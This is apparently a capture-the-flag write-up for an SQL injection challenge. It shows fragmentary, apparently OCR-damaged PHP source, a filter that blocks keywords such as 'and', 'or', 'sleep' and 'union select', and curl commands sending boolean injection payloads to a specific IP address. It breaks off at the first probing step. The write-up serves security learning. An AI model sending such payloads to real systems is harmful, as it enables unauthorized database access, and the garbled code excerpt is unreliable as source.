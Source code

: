 # Description:  
Super tough & Great SQL Injection Challenge which i personally loved it as i
learned a ton through this challenge. We have a form validating user id's and
source code is given.

```php  
fetch_assoc()['yyyyyyyyyyyyyyyyyyyy']; //Sorry It's our secret, can't share  
?>

  
  
  
  
<center>  
Security Check!!! Please enter your ID to prove who are you !!!:  
<form action="index.php" method="POST">  
       <input name="id" value="" />  
  
       <input type="submit" value="Submit" />  
</form>  
</center>

fetch_assoc()['username'];  
               if($user!=='admin')  
               {  
                       echo 'Hello '.htmlentities($user);  
                       if($user==='admin')  
                       {  
                               echo 'This can\'t be =]] Just put here for fun lul';  
                               die($flag);  
                       }  
               }  
       }  
}  
?>  
```  
We could see hard stops blocking ``and|or|in|if|case|sleep|benchmark`` and
more hard part is ``union select`` eggressive check.  
It matches anything. ``Ex: union/*bla*/select``

We can also see there are loops which doesn't make sense. we can't get flag
any way through id it seems. So we have to identify and exploit sql injection.

# Approach:  
I started identifying injection as we don't see any prepared statement like
``select * from users where id=?``

As ``and, or`` are blocked i can use ``&&`` to check injection quickly.

```css  
root@MrR3boot:~# curl -X POST http://45.77.240.178:8002/index.php -d "id=2 %26%26 1=2" 2>/dev/null | tail -1   
Hello  
root@MrR3boot:~# curl -X POST http://45.77.240.178:8002/index.php -d "id=2 %26%26 1=1" 2>/dev/null | tail -1   
Hello guest  
```
